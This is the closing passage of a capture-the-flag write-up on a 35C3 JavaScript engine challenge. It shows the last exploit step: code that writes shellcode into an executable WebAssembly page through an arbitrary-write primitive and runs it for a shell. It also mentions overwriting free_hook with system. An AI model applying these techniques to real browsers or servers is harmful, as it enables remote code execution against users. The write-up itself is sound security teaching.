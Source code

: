 ```js
	wasm_func = f;
	f(); });
```

Once we had these, it was a simple matter of throwing in, and
executing the shellcode:

```js
function stages_after_wasm() {
	for (var i = 0 ; i < shellcode.length ; ++i ) {
		let a = rwx_page_addr + (BigInt(i) * 8n);
		arb_write(a, shellcode[i]);
	}
	wasm_func();
}
```

And there we have it, a shell! Since this no longer relied on the
stack, it was a much more [stable exploit](./exploit.js), and I was
able to run it on the server, and obtain the flag:
`35C3_this_bug_was_a_minus_zero_day`. Quite a fitting flag, won't you
say?

## Concluding Remarks

This challenge was _super_ fun and interesting. I learnt a lot along
the way, even though I was frustrated at times, especially due to the
stack issues at the end. On a discussion with
[Stephen](https://twitter.com/_tsuro/) after I had got the flag, he
said that he too had to get around the weird stack issue, but he'd
done it by overwriting `free_hook` with `system`, and then calling
`console.log` with `sh`. That definitely was an awesome solution as
well, and one that I will keep in mind for the future.

## Acknowledgements

Massive thanks to [Ricky](https://twitter.com/riczho) who gave massive
moral support and kept throwing in ideas when I was about to give up,
after I'd been facing those stack issues. Also, mad props to
[Stephen](https://twitter.com/_tsuro/) for finding this bug, and
having this as a challenge in 35c3. Thanks to
[Carolina](https://twitter.com/zaratec4) for reviewing this writeup
and providing some super helpful suggestions.

---

Write-up by f0xtr0t (Jay Bosamiya) [[https://www.jaybosamiya.com/](https://www.jaybosamiya.com/)]
